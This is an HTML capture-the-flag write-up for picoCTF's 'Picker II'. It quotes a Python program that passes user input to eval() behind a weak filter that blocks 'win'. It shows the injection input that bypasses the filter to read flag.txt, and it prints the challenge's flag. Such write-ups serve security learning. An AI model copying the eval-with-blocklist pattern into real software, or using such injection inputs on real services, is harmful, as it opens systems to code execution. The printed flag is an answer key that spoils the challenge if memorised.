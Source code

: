 
<!DOCTYPE html>
<html>
<body>
<title>Picker II- picoGym Exclusive</title>

<h2>Challenge Description</h2>
<p> AUTHOR: LT 'SYREAL' JONES

Description
Can you figure out how this program works to get the flag?
Additional details will be available after launching your challenge instance.
------------------------------------------------------------------------------
Connect to the program with netcat:
$ nc saturn.picoctf.net 56676
The program's source code can be downloaded <a href="https://artifacts.picoctf.net/c/522/picker-II.py">here</a>.

</p>

<h2>Solution Approach</h2>
<p>Here are the steps we took to solve the challenge:</p>
<ol>
we download source and see is like <a href="https://phantom1ss.github.io/blog/2024/practice/picoctf/PickerI/writeup1.md">picker I </a>except that it has filter for prevent input win and get flag
<pre>
def filter(user_input):
if 'win' in user_input:
return False
return True


while(True):
try:
user_input = input('==> ')
if( filter(user_input) ):
eval(user_input + '()')
else:
print('Illegal input')
except Exception as e:
print(e)
</pre>
but like previous code can have input print('hi') all input should be like functions and can't have input like cat flag.txt
some inputs are like this<pre>
==> cat flag.txt
invalid syntax (<string>, line 1)
==> print('hi')
hi
'NoneType' object is not callable
==> exit
.....
</pre>
in hint say see what win function do.see win function code
<pre>
def win():
# This line will not work locally unless you create your own 'flag.txt' in
# the same directory as this script
flag = open('flag.txt', 'r').read()
#flag = flag[:-1]
flag = flag.strip()
str_flag = ''
for c in flag:
str_flag += str(hex(ord(c))) + ' '
print(str_flag)
</pre>
and this code that is like function and print flag is interested
<pre>
flag=open('flag.txt', 'r').read()
</pre>
so for print flag just input this and get flag
<pre>
==> print(open('flag.txt', 'r').read())
</pre>

</ol>
<br>
<h2>Flag</h2>
<p class="flag">picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}

<h2>Conclusion</h2>
<p>this is a very easy challenge for work on reverse engineering with python and bypass filter input</p>
</body>
</html>







